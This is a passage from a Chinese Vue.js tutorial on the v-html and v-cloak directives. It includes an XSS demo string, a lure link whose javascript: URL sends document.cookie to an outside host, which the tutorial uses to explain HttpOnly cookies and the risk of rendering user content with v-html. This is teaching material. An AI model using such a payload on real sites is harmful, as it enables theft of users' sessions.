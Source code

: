 ```html
				// 那么将会生成一个超链接标签
				// 当用户点击后
				// 由于 location.href="http://www.baidu.com?"+document.cookie
				// 本网站的cookie将被获取，同时跳转到指定页面，将本网站的cookie发送给跳转网站的服务器
				// 这样子别人就能够获取和使用我们的cookie进行登录或者其他操作
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

> ![在这里插入图片描述](./assets/18. Vue的其他内置指令/384f72a6cbd1b6a9f0e462b55bc7532a.png)
> ![在这里插入图片描述](./assets/18. Vue的其他内置指令/cdf7c9a7afe63956c0d85149a9b3254f.png)
> ![在这里插入图片描述](./assets/18. Vue的其他内置指令/4ef0d6df66fa98ab09effb7c7a04eb52.png)

Cookie中，勾选了HttpOnly的内容不能通过document.cookie直接获取，只能通过http协议获取，http协议之外的任何方式都不能得到。

![image-20241208161952301](./assets/18. Vue的其他内置指令/image-20241208161952301.png)

得到的只有没有勾选HttpOnly的内容

![image-20241208162155091](./assets/18. Vue的其他内置指令/image-20241208162155091.png)

### 3.3 v-html 总结

1. v-html 作用：向指定节点中渲染包含html结构的内容。
2. 与插值语法的区别：
   - (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
   - (2).v-html可以识别html结构。
3. 严重注意：v-html有安全性问题！！！！
   - (1).在网站上动态渲染任意HTML是非常危险的，容易导致[XSS攻击(冒充用户之手)](https://baike.baidu.com/item/XSS攻击/954065)。
   - (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

## 4. v-cloak 指令

v-cloak指令没有值，本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<!-- 
			由于加载vue.js在html元素之后，所以当网速较慢时，vue.js还未获取到
			此时未经vue渲染的原始html元素就会显示给用户
			如果使用了v-cloak再配合css则可以实现在vue.js未获取时不显示，直到获取之后才显示
			因为创建vue实例对象只能在获取vue.js之后，使用vue实例页面进行渲染也只能在创建vue实例之后
		 -->
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
```